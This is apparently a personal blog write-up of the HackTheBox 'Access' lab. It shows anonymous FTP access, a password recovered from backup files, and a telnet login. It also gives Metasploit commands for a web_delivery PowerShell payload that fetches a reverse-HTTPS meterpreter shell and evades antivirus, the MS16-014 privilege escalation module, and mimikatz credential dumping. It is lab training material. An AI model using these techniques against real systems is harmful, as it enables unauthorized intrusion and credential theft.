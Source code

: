 ```yaml
---
layout: post
title: HackTheBox - Access
categories: posts
permalink: /htb-access
---
```


![BoxInfo]({{ site.baseurl }}/assets/htb-images/access/infocard.png)

As always, I am starting off with an Nmap scan to determine open ports. After the scan has completed I will be able to determine my attack vector.

![Nmap]({{ site.baseurl }}/assets/htb-images/access/Nmap.png)

So it looked like that RDP and telnet are open, FTP allows for anonymous login. When I tried to access the FTP service from the browser It seems that i cannot do it, but when I tried to login from the terminal it allowed me ! I was prompted for username so I just used Anonymous for user and blank password, since the header of Nmap output, showed that FTP allows for anonymous access ! There were 2 directories inside FTP service: Backups and Engineer. Backups folder contained a file called "backup.mdb" and folder Engineer contained a zip file "Account Access.zip". I ran strings command on backups.mdb and I found
several interesting things:

admin , administrator, engineer, backup_admin, access4u@security

The last one access4u@security looked more like a password and so I passed it to the zip file: Access Control.zip and it worked so i extracted the file inside. Now the file inside the compressed file had an extension ".pst" so I used a tool called readpst to convert the file and read it with any kind of editor. After I opened the file, I found some information about an account on the system.

![acc_security]({{ site.baseurl }}/assets/htb-images/access/acc_security.png)

I used the found credentials in the Microsoft Telnet Service (port 3389) and it prompted me with a shell. So now I was inside the system and I could run commands.

![telnetaccess]({{ site.baseurl }}/assets/htb-images/access/telnetaccess.png)

After enumerating the system, I didn't find anything, so I decide to upload a windows enumeration script to find something for me. I have immediately discovered that I wasn't allowed to use backspace and arrows to quickly navigate through commands. I have decided to get a meterpreter session, but after trying to get through payload execution on the system it didn't work, so I opted to get a web based reverse shell, using the module 'exploit/multi/script/web_delivery'. What this module will do, is to generate a powershell command, which will be base64 encrypted to evade windows defender and metasploit will also open a web server on my machine so that when I execute the command in the telnet session, the windows box will access my metasploit web server, grab the payload and execute it.

As for the enumeration script, I used Sherlock (made by RastaMouse). This script is going to check for missing patches & software as well as show possible ways of privilege escalation. When the script finished the enumeration, I saw that script has found a common way of privilege escalation in Windows, Secondary Logon Handle, CVE: MS16-032! Once I tested the exploit it did not work, so I would assume at this point that the system was patched against this exploit.

 In Metasploit
 $ use multi/script/web_delivery
 $ set payload windows/x64/meterpreter/reverse_https

 Had some error with this exploit saying its not compatible so running this command fixed it !

 $ set target 2 ----> Sets payload delivery via Powershell
 $ set LHOST  
 $ set LPORT <>
 $ exploit -j

Copy command from metasploit & run on target machine !

![Payload_Delivery]({{ site.baseurl }}/assets/htb-images/access/Payload_Delivery.png)

I now had 2 shells as user 'security', one telnet & one meterpreter session. As MS16-032 did not worked,I have checked to see the closest exploit to date to MS16-032 and it was the MS16-014. Metasploit has a post exploitation module which uses this exploit to escalate privileges.

 In Metasploit after I get shell !

 $ meterpreter> background
 $ search ms16-014
 $ use exploit/windows/local/ms16_014_wmi_recv_notif
 $ set session 1
 $ exploit

![MS16-014MSFpostModule]({{ site.baseurl }}/assets/htb-images/access/MS16-014MSFpostModule.png)

This privilege escalation exploit spawned me in shell session instead of in meterpreter as NT_AUTHORITY user, so I quickly changed it to a meterpreter session using a post module.

 Switch from Shell -> Meterpreter

 $ctrl + z
 $ use post/multi/manage/shell_to_meterpreter
 $ set LHOST  
 $ set LPORT <>
 $ set session 2
 $ exploit

![System-Meterpreter]({{ site.baseurl }}/assets/htb-images/access/System-Meterpreter.png)

At this point, I tried to read the flag, but with no luck! Interestingly enough, I wasn't able to do because I didn't have permission and I was NT_AUTHORITY so it was really weird. My attempt to this was to grab the password for the Administrator user using mimikatz (developed by gentlekiwi). I uploaded the tool, and ran it, and I grabbed the password for user Administrator. After this, I opened another telnet session and logged in as Administrator and now I was able to read the root flag!

![MimikatzGetPasswds]({{ site.baseurl }}/assets/htb-images/access/MimikatzGetPasswds.png)

![Gotroothash]({{ site.baseurl }}/assets/htb-images/access/Gotroothash.png)